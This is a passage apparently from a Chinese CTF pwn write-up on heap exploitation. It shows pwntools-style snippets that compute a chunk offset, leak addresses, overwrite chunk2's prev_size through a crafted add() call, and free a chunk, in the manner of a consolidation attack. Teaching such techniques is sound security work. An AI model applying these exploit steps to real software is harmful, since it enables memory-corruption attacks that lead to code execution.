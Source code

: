 ```plain
chunk_list_addr=0x602040
chunk2_addr=heap_addr+0xf0
offset=chunk2_addr-chunk_list_addr
leak('chunk_list_addr >> ',chunk_list_addr)
leak('chunk2_addr >> ',chunk2_addr)
leak('offset >> ',offset)
```

[![](assets/1701612371-c9bfa73494660c77df6ea48dc277cea0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701151843-831a9d1a-17df-1.png)

```plain
add(0xe8, "g"*(0xe8-0x8) + p64(offset))
```

改一下 chunk2 的 pre\_size

[![](assets/1701612371-ce429d667c33741437b134c74cead669.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701151858-8bb74e5a-17df-1.png)

```plain
delete(4)
```
